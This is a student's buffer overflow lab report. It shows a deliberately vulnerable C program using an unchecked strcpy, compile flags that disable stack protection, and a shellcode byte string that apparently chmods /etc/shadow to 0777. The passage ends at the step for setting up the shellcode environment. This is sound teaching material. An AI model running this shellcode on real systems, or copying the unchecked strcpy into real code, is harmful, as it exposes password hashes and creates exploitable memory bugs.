 # Lab #1, 19110068, Do Ngoc Anh Vien, INSE331280E_03FIE
# Task 1: Software buffer overflow attack
## 1. Create a text file named `vulnerable.c` and `shellcode.c`:
*First, we put the given script into the file `vulnerable.c`:*

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

*Second, we put the given script into the file `shellcode.c`:*

```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

void main() {
    int (*ret)() = (int(*)())code;
}
```

## 2. Compile both the provided C programs:

```sh
gcc -g -m32 -fno-stack-protector vulnerable.c -o vulnerable.o
gcc -g -m32 -fno-stack-protector shellcode.c -o shellcode.o
```

If compile successfully, run `ls` command, we should see two `*.o` files as below:

<img width="512" alt="Screenshot 2024-10-23 at 08 59 52" src="https://github.com/user-attachments/assets/212a335d-789e-4112-8a61-d7020fe8e4fb">

## 3. Create shellcode env:
